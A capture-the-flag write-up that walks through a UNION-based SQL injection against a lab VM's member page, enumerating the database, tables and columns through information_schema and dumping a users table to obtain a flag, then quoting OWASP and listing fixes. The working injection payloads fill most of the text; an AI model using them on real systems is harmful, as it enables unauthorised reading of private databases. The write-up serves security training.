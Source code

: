 # SQL injection basic

Переходим на страницу ```http://[VM_IP]/index.php?page=member```
In this case, we perform the same actions as in the other part with the SQL injection (look at SQL-injection-basic)

Enter ```4242 UNION SELECT 4242, database()```
And we get the name of the database - Member_Sql_Injection.
According to the familiar scheme, we translate the string into a list of characters:

Member_Sql_Injection = 77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110

```
4242 UNION SELECT 1, TABLE_NAME
FROM information_schema.TABLES
WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)
```

The name of table is users (117,115,101,114,115)

Now we get the columns that are in the table
```
4242 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS
WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)
AND TABLE_NAME = CHAR(117,115,101,114,115) 
```

We get the following database fields: user_id, first_name, last_name, town, country, planet, Commentaire, countersign

Make a request, knowing the fields and get the key!
```
4242 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign)
FROM users
```

```
Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

So, we just follow this instructions.

## Explanation
Attack type: [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection): SQL Injection
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application.
> A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete),
> execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present
> on the DBMS file system and in some cases issue commands to the operating system.
> SQL injection attacks are a type of injection attack,
> in which SQL commands are injected into data-plane input in order to affect theexecution of predefined SQL commands.

## How to fix it
> Escaping all user supplied input.
> Use of stored procedures.